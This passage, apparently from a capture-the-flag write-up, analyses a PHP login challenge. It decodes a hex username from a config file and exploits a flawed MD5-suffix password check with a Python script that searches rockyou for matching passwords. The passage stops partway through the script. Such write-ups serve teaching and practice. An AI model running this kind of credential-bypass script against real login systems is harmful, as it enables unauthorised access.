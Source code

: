 **Config.phps**

```php
 <?php

define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 
```


We got a lot of valuable information from these files:

**Index.phps** initializes a session and brings in both the custom functions and the Securimage CAPTCHA library before rendering a login form. It inspects POST data for a username, password, CAPTCHA code, and a hidden â€œclickedâ€ flag (set via an obfuscated JavaScript eval), then verifies the CAPTCHA server-side. If the CAPTCHA passes and both the username and password validations succeed, it stores the raw credentials in cookies and redirects the user to mfa.php; otherwise it shows either a captcha error or a generic â€œincorrect detailsâ€ message.

**Functions.phps** loads configuration from config.php and exposes two validation routines. The first, is_valid_user, transforms the supplied username into hexadecimal with bin2hex and checks it against the LOGIN_USER constant. The second, is_valid_pwd, hashes the provided password with MD5 and deems it valid if the final three characters of the hex digest are â€œ001.â€ A developer comment hints at future hardening ideas.

**Config.phps** simply defines the LOGIN_USER constant as the hex string â€œ6a61736f6e5f746573745f6163636f756e74,â€ which decodes to the literal username jason_test_account. This ties straight into the user-validation logic and makes it clear exactly which username will pass the check.


With this info, we can begin the exploitation phase.


# EXPLOITATION
---

The implementation for the password is poorly done, it only checks if the md5 hash ends up in `001`, we can use a python script to automate the process of finding valid passwords, let's use rockyou:

```python
#!/usr/bin/env python3
import hashlib
import sys

WORDLIST_PATH = '/usr/share/wordlists/rockyou.txt'
TARGET_SUFFIX = '001'
MAX_RESULTS = 10

def md5_endswith(word: str, suffix: str) -> bool:
 return hashlib.md5(word.encode('utf-8')).hexdigest().endswith(suffix)

def search_rockyou():
 found = []
 try:
 with open(WORDLIST_PATH, 'r', encoding='utf-8', errors='ignore') as f:
 for line in f:
 for word in line.split():
 if md5_endswith(word, TARGET_SUFFIX):
 found.append(word)
 if len(found) >= MAX_RESULTS:
 return found
 return found
 except FileNotFoundError:
 print(f"Wordlist not found at {WORDLIST_PATH}", file=sys.stderr)
 sys.exit(1)

if __name__ == '__main__':
 results = search_rockyou()
 if results:
```